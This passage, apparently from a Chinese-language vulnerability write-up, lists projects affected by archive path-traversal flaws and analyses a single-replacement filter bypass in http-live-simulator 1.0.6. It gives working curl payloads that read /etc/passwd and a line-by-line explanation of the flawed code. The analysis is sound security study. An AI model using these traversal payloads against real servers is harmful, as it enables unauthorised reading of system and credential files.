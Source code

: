 | Lucee            | Lucee                          | [5/6/2018](https://github.com/lucee/Lucee/commit/04a2d504ebe5472eddbe38c4333c0904bd8dc765)                                               |  5.2.7.63, 5.2.8.47    |               | [#1](https://github.com/lucee/Lucee/blob/ad2b44d9b6695e6ef8632eadf306c3f38e43885b/core/src/main/java/lucee/runtime/tag/Zip.java#L487)                                                                                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                 |
| groovy-common-extensions            | groovy-common-extensions                          | [3/7/2018](https://github.com/timyates/groovy-common-extensions/commit/ea5d3fb7b64edeac405d83193bfeac6dbcd1ad3f)                                               | [0.7.1](https://github.com/timyates/groovy-common-extensions/releases/tag/v0.7.1)    |               | [#1](https://github.com/timyates/groovy-common-extensions/blob/169fad28b6ec306979f06b5ec38cae4085bf05bd/src/main/groovy/com/bloidonia/groovy/extensions/FileExtensionMethods.groovy#L144)                                                                                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                 |
| fabric8            | fabric8                          | [5/6/2018](https://github.com/fabric8io/fabric8/commit/c7d4db1d2570579a7735b4d48a4380bc4b7152a5#diff-41610113b82d84309edcd091d69cd789)                                               | 2.2.170-85    |               | [#1](https://github.com/fabric8io/fabric8/blob/5d20ac54e81246b78dc343ff0504b815421f5704/components/fabric8-utils/src/main/java/io/fabric8/utils/Zips.java#L116)                                                                                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                 |
| Apache            | Tika                          | [19/9/2018](https://lists.apache.org/thread.html/ab2e1af38975f5fc462ba89b517971ef892ec3d06bee12ea2258895b@%3Cdev.tika.apache.org%3E)                                               | 1.19    |               |    
| Apache            | DeepLearning4J                          | [10/24/2018](https://github.com/deeplearning4j/deeplearning4j/pull/6630)                                           | 1.0.0-SNAPSHOT    |               | 
|                                                                                                                                                                                                                                 |



### 实例2 - 单次替换

代码仓库

[http-live-simulator@1.0.6](https://github.com/prahladyeri/http-live-simulator/tree/8e85a1be562248d0d616c0e5092a3d71bbf5fe5f)

环境搭建
```
# macOS 10.14.4
cd /Users/xxx/Downloads

# Install the module
npm install -g http-live-simulator@1.0.6

# Run the server
http-live
```

漏洞利用
```
# Attempt to access a file from outside that project's directory
# 其中curl的参数--path-as-is 表示"Do not squash .. sequences in URL path" 不压缩url路径中的..

# 构造payload如下 都成功了

# payload1  将 `/../` 替换为 `//../../`
curl --path-as-is http://localhost:8080//../../../../etc/passwd
# 最终绝对路径为/Users/xxx/Downloads/../../../etc/passwd

# payload2  将 `/../` 替换为 `/./.././`
curl --path-as-is http://localhost:8080/./../././../././../././.././etc/passwd
# 最终绝对路径为/Users/xxx/Downloads/.././../././../././.././etc/passwd
# 为了便于理解 可以自行去除其中无实际作用的./ 得到与绕过方式1相同的最终绝对路径 /Users/xxx/Downloads/../../../../etc/passwd
```

payload1绕过过程分析 查看文件bin/http-live可知后端逻辑如下
```
# 71行 var pathname = url.parse(req.url, true).pathname;
# 直接从url中获取pathname的参数值 得到 //../../../../etc/passwd
# 72行 pathname = pathname.replace("/../","");  将参数值中的`/../` 替换为空 仅替换一次(修复无效 可被绕过).
# 此时 pathname参数值变为 /../../../etc/passwd
# 90行 拼接得到绝对路径 abspath = process.cwd() + pathname; #注意 process.cwd()返回当前目录/Users/xxx/Downloads 注意结尾不是斜杠符号
# 92行 此时绝对路径abspath值为 /Users/xxx/Downloads/../../../etc/passwd
# （所以构造payload时url中8000后面必须有两个连续的/才对 否则路径构造错误 文件不存在 跳出 返回404）
# 93行 if (fs.existsSync(abspath)) {  // 路径正确 文件存在	
# 94行 fs.readFile(abspath, function(err, data) { // 将绝对路径实参 abspath 传入到fs.readFile函数
# 98行 res.write(data); //将文件内容作为response body
# 99行 res.end(); //返回响应
# 实现了任意文件读取.
```
